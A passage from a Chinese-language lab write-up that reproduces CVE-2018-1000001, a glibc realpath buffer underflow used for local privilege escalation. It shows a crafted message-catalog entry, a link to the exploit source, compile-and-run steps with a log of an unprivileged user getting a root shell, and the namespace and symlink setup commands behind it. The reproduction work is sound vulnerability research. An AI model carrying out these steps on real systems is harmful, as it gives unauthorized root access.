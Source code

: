 ```
msgid ""
"%s: target is busy\n"
"        (In some cases useful info about processes that\n"
"         use the device is found by lsof(8) or fuser(1).)"
msgstr "BBBBABCD%s\n"

```

  

##### b. EXP源码

​	复现环境exp，见附件cve-2018-1000001-01.md

​	原作者exp: [exp.c](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c)

##### c. 复现步骤

- 搭建复现环境，与POC中的环境相同

- 步骤一 设置unprivileged_userns_clone权限

```
# 将unprivileged_userns_clone设置为1(默认为0)
root$ echo 1 > /proc/sys/kernel/unprivileged_userns_clone
```

- 步骤二  编译exp文件

    使用的是修改过的exp，具体修改了加载mo的目录和execl的相对偏移以适配复现环境

```
gcc exp.c -o exp	
```

- 步骤三 执行exp

```
debian@debian:~/Desktop/work$ id
uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),113(lpadmin),118(scanner)
debian@debian:~/Desktop/work$ ./exp
./exp: invoked as SUID, invoking shell ...
root@debian:~/Desktop/work# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),113(lpadmin),118(scanner),1000(debian)
root@debian:~/Desktop/work# 

```

- 如何获取util-linx.mo文件的相对路径

```
# 定位到_nl_find_msg调用，找到第一个参数的值
char *_nl_find_msg (struct loaded_l10nfile *domain_file,
		    struct binding *domainbinding, const char *msgid,
		    int convert, size_t *lengthp)
     internal_function;


# Terminal 1
/usr/bin/unshare -m -U --map-root-user /bin/bash
mount -t tmpfs tmpfs /tmp
cd /tmp
chmod 00755 .
mkdir -p -- "(unreachable)/tmp" "(unreachable)/tmp/xxx/C.UTF-8.utf8/LC_MESSAGES" "(unreachable)/x" 
ln -s ../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A "(unreachable)/tmp/down"
echo $$
46416

```